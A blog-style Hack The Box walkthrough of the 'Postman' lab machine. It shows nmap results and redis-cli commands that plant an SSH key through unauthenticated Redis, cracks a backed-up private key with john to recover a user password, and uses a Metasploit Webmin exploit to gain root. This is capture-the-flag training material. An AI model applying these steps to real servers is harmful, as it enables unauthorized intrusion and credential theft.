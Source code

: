 ```yaml
---
title:     "Hack The Box - Postman"
tags: [linux,easy,redis,john]
layout: post
categories: HackTheBox
---
```


![](/img/htb-postman/img8.jpg)

We are going to pwn Postman from Hack The Box. Postman is a easy level linux machine.
Take a cup of tea and let's get started.

Link : <https://www.hackthebox.eu/home/machines/profile/215>

## Enumeration

Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Found that port 80 http is open, so a site must be running. 

![](/img/htb-postman/img13.jpg)

The site looks to be under construction.
The Only thing I got from webpage is email address at the bottom.

Tried DIRB to find out any sub-directories that may help.

![](/img/htb-postman/img17.jpg)

![](/img/htb-postman/img19.jpg)

Tried different wordlists with dirb but the results doesn't reveal any useful directories.
/upload had nothing useful.


Found out that the service “redis” is running on port 6379. 
Interestingly found a nse script for redis-info.

![](/img/htb-postman/img25.jpg)


## Exploiting Redis

Started reading about the redis in detail and to seehow it works. It is used as an
in-memory distributed database.
Also found this Redis Unauthorized Access Vulnerability that saved my life.
https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e

According to it,
Under certain conditions, if Redis runs with the root account (or not even), attackers can
write an SSH public key file to the root account, directly logging on to the victim server
through SSH. This may allow hackers to gain server privileges, delete or steal data, or
even lead to an encryption extortion, critically endangering normal business services.

Nice. I looked at its simulation and started doing the same process.

Also found another link with the same procedure,
https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html
These blogs saved my life. So I downloaded the redistools on my machine and started
doing the same steps.


First we generate the SSH KEYS with passphrase (90909090 for this case)

```
$ ssh-keygen -t rsa
```

![](/img/htb-postman/img44.jpg)

Remember, don't leave the passphrase empty. I tried with an empty passphrase and
encountered several problems, idk why. Keep it anything,just dont leave it empty.

Next, enter the .ssh folder. If you are root user,enter /.ssh, otherwise ~/.ssh, then copy
the private key into temp.txt. (or whatever.txt)

```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")> temp.txt
$ cat temp.txt (To Check the Key)
```

![](/img/htb-postman/img46.jpg)

So far we have generated a pair of keys, we will needto find a way to smuggle the
public key to the Redis server.
We are going to use redis-cli, the Redis command lineinterface, to send commands to
Redis and read the replies sent by the server directlyin the terminal.

```
$ cat temp.txt | redis-cli -h 10.10.10.160 -x setfok
```

Once Done, we have a key with our SSH key sneakedin! Let’s connect to the Redis
and play around its configuration. Use redis-cli toconnect to the Redis server again.
Take a look at the site and follow the same commands.

```
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> get fok (key sent from previouscommand)
10.10.10.160:6379> CONFIG GET dir (Tell which directory you are in)
10.10.10.160:6379> CONFIG SET dir var/lib/redis/.ssh (set default directory of user redis)
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
10.10.10.160:6379> save (save the key)
```

![](/img/htb-postman/img51.jpg)

Let’s Try to Connect with SSH

Enter your passphrase and voila!

![](/img/htb-postman/img55.jpg)

TADA!!! Got a user “redis” shell. DAMN!

## Privilege Escalation

Ran to the /home file to find the user named “MATT”.I found the user.txt inside but
> PERMISSION DENIED!

These sites would help a lot :

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://guif.re/linuxeop

https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/

Tried find the SUID Binaries to see if i could exploit them somehow.

![](/img/htb-postman/img61.jpg)


Tried everything, found the OS, Kernel, Distribution blah blah blah with the above
websites.

Ran LinEnum.sh to get more details.

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

![](/img/htb-postman/img66.jpg)

Found this through the script,

![](/img/htb-postman/img67.jpg)

Checked the bash_history of user “redis” : (See something common)


![](/img/htb-postman/img70.jpg)

Found a backup of Some Private Key inside the /opt/as /opt/id_rsa.bak and copied to
my Machine. (named it user.hash)

![](/img/htb-postman/img72.jpg)

We convert this private-Key to John Readable Hash with /ssh2john.py so that it can be
cracked with a appropriate wordlist.

$ cd /usr/share/john
You can see lot of keys to john-hash converter python scripts. Use the ssh2john.py
$ ./ssh2john.py {Location of the saved hash} > MATT.hash
This will convert the private ssh key to john readable hash.
$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt MATT.hash

![](/img/htb-postman/img76.jpg)

YEAH!!! Found the user password for “Matt” to be “computer2008”

Login inside the User “Matt”


![](/img/htb-postman/img78.jpg)

Yeah, Found the User Hash.

Tears of joy.

Went back to the HTB Forums and found out this hint:
ROOT: As said, you know are able to use an exploit that you couldn't use before.

Went back to Metasploit for the Webmin Exploit I found earlier but that didn't work. So
Let’s try that :

![](/img/htb-postman/img81.jpg)

It’s the webmin_packageup_rce script. Fired it up and set the options.
Ran the script and voila!!!!

![](/img/htb-postman/img83.jpg)

It worked! Man I knew what i had to do!

![](/img/htb-postman/img85.jpg)

I got root!


